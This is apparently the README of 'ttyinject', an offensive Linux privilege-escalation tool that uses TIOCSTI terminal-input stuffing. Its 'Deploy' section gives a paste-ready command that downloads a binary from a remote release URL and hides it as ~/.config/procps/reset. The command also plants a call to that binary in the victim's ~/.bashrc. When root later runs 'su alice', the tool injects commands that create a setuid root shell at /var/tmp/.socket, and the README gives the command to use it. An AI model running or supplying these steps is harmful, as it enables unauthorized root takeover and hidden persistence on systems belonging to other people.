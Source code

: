 # Alice gets ROOT when ROOT executes 'su alice'.  
(This is the older trick in the book - TTY / TIOCSTI stuffing)

Useful when all other exploits fail.

Typically used when the attacker has a shell as user 'apache', 'php' or 'postgresql'. Alice is used as an example only.

## Deploy
Cut & paste the following into Alice's shell:
```shell
mkdir -p ~/.config/procps 2>/dev/null
curl -o ~/.config/procps/reset -fsSL "https://github.com/hackerschoice/ttyinject/releases/download/v1.1/ttyinject-linux-$(uname -m)" \
&& chmod 755 ~/.config/procps/reset \
&& if grep -qFm1 'procps/reset' ~/.bashrc; then echo >&2 "Already installed in ~/.bashrc"; else \
echo "$(head -n1 ~/.bashrc)"$'\n'"~/.config/procps/reset 2>/dev/null"$'\n'"$(tail -n +2 ~/.bashrc)" >~/.bashrc; fi
```

Wait for ROOT to execute 'su alice' and thereafter gain a root with:
```
/var/tmp/.socket -p
```

---

## Technical: Read the source.  
TL;DR:
* Injects commands into the root's TTY that copy `/bin/sh` to `/var/tmp/.socket` and +s the same.
* Only executed once (deletes itself on success)
